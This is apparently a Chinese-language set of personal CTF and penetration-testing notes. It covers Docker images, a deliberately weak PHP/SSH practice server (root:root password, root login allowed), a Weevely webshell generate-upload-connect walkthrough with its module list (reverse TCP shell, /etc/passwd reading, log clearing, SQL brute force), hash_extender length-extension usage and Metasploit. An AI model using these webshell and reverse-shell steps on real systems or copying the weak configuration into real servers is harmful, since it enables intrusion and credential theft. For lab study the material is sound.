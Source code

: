 # 镜像
[ctfwiki/ctf-wiki - Docker Image | Docker Hub](https://hub.docker.com/r/ctfwiki/ctf-wiki)
[wcjiang/linux-command - Docker Image | Docker Hub](https://hub.docker.com/r/wcjiang/linux-command)
[mpepping/cyberchef - Docker Image | Docker Hub](https://hub.docker.com/r/mpepping/cyberchef)
[remnux/ciphey - Docker Image | Docker Hub](https://hub.docker.com/r/remnux/ciphey)
[sonarqube - Official Image | Docker Hub](https://hub.docker.com/_/sonarqube)
##### PHP manual
[PHP: Download documentation](https://www.php.net/download-docs.php)
```dockerfile
FROM nginx
COPY ./php-chunked-xhtml /usr/share/nginx/html
```

```sh
docker build . -t php8-manual
docker run --rm --name php8-manual -dp 3001:80 php8-manual
```
##### PHP 服务器

```dockerfile
FROM php:7.2-apache
LABEL Author="Momean"
ENV TZ=Asia/Shanghai
COPY config /tmp/
RUN ln -snf /usr/share/zoneinfo/$TZ /etc/localtime && echo $TZ > /etc/timezone; \
    sed -i 's/deb.debian.org/mirrors.aliyun.com/g' /etc/apt/sources.list \
    && sed -i 's/security.debian.org/mirrors.aliyun.com/g' /etc/apt/sources.list
RUN apt-get update -y; apt-get install -y net-tools wget openssh-server
RUN mv /tmp/docker-php-entrypoint /usr/local/bin/docker-php-entrypoint
RUN chown -R www-data:www-data /var/www/html \
    && chmod +x /usr/local/bin/docker-php-entrypoint \
    && mv /usr/local/etc/php/php.ini-production /usr/local/etc/php/php.ini
# 取消pam限制
RUN sed -ri 's/session    required     pam_loginuid.so/#session required pam_loginuid.so/g' /etc/pam.d/sshd
# 修改root密码
RUN echo root:root | chpasswd
RUN groupadd -g 1001 ctf
RUN useradd ctf -g ctf -u 1001
# 一行命令修改用户密码
RUN echo ctf:ctf | chpasswd ctf
RUN mkdir -p /home/ctf
# 允许root登录
RUN sed -i 's/#PermitRootLogin prohibit-password/PermitRootLogin yes/g' /etc/ssh/sshd_config
# 似乎该目录不存在无法运行sshd
RUN mkdir -p /var/run/sshd
# # 生成公钥
# RUN ssh-keygen -q -t rsa -b 2048 -f /etc/ssh/ssh_host_rsa_key -P '' -N ''
RUN /usr/sbin/sshd -D &
RUN rm -rf /tmp/*
WORKDIR /var/www/html
EXPOSE 80
EXPOSE 22
```

如果`ssh`失败，提示`kex_exchange_identification: Connection closed by remote host`，可以尝试重启`sshd`，使用`systemctl restart sshd.service`，
但是需要进入特权模式`docker run --rm -d -p 8081:80 -p 2222:22 -it --privileged -v "$PWD":/var/www/html php72-ctf /sbin/init` 重要的是其中`--privileged`以及`/sbin/init`

如果出现`WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!`的错误，可以通过`ssh-keygen -R <host>`重置docker主机的ssh公钥，如果是特定端口，需要`ssh-keygen -R "[127.0.0.1]:2222"`这种格式。
# Weevely
kali自带的webshell管理工具
1. 生成木马文件，在weebely3文件夹中会生成一个连接密码为123的shell.php
```sh
./weevely.py generate <password> shell.php
```
2. 上传shell文件到目标服务器
3. 连接木马
```sh
./weevely.py http://192.168.139.129:81/shell.php <password>
```
4. 连上之后可以执行指令了
5. 利用自带模块收集信息

```sh
:system_info -info uname
# 直接输入help可以查看其他可用模块
```

```sh
:shell_su                     # 通过更变使用者来执行shell命令，可以获得root权限来执行命令.
:shell_sh                     # 执行 shell 命令.
:shell_php                    # 执行 PHP 命令.
:system_extensions            # 收集PHP和webserver扩展列表
:system_info                  # 收集系统信息
:system_procs                 # 列出正在运行的进程
:audit_disablefunctionbypass  # 使用mod_cgi和.htaccess绕过系统禁用函数的限制。它会上传.htaccess和CGI脚本，并在远程服务器上运行伪系统shell
:audit_etcpasswd              # 查看/etc/passwd文件
:audit_suidsgid               # 查找带有SUID或SGID标志的文件。
:audit_phpconf                # 查看php配置信息
:audit_filesystem             # 审核文件系统的弱权限。枚举各种系统目录并寻找可读写执行的目录，模块仅默认搜索部分linux下的常见目录，logs、root、home等
:backdoor_reversetcp          # 执行反向TCP shell. 需要nc -lvp <port>监听
:backdoor_tcp                 # 在TCP端口上生成shell
:net_scan                     # TCP端口扫描.
:net_mail                     # 发送邮件.
:net_ifconfig                 # 获取网络接口地址.
:net_curl                     # 执行类似curl的HTTP请求.
:net_proxy                    # 运行本地代理以通过目标转移HTTP / HTTPS浏览
:net_phpproxy                 # 在目标上安装PHP代理.
:bruteforce_sql               # 可用来猜解数据库密码.
:file_find                    # 查找具有给定名称和属性的文件.
:file_download                # 从远程文件系统下载文件.
:file_check                   # 获取文件的属性和权限.
:file_touch                   # 更改文件时间戳.
:file_cd                      # 更改当前工作目录.
:file_grep                    # 打印与多个文件中的模式匹配的行.
:file_gzip                    # 压缩或解压gzip文件.
:file_tar                     # 压缩或解压tar文件.
:file_enum                    # 检查路径列表的存在和权限
:file_bzip2                   # 压缩或解压bzip2文件.
:file_mount                   # 使用HTTPfs挂载远程文件系统.
:file_clearlog                # 从文件中删除字符串.
:file_zip                     # 压缩或解压zip文件.
:file_cp                      # 复制单个文件.
:file_upload2web              # 自动将文件上传到Web文件夹并获取相应的URL.
:file_edit                    # 在本地编辑器上编辑远程文件.
:file_read                    # 从远程文件系统中读取远程文件.
:file_webdownload             # 指定URL下载文件.
:file_upload                  # 文件上载到远程文件系统.
:file_ls                      # 列出目录内容.
:file_rm                      # 删除远程文件.
:sql_dump                     # Multi dbms mysqldump replacement.
:sql_console                  # 执行SQL查询或运行sql控制台.
```


# Hash_extender
[iagox86/hash_extender (github.com)](https://github.com/iagox86/hash_extender)
哈希扩展攻击的实现

```sh
# clone后将makefile中改为-Wno-deprecated-declarations再进行make
- CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated
+ CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated-declarations


# 使用方式
hash_extender --data data --secret 6 --append append --signature 6036708eba0d11f6ef52ad44e8b74d5b --format md5

# H(secret + data)
# 使得自行拼凑的 H(secret + data + append)有效
# secret其实可以随便填，反正随便猜个长度
```



# Metasploit
`msfconsole`启动
常用的渗透测试工具，包含了常见的漏洞利用模块和生成各种木马。




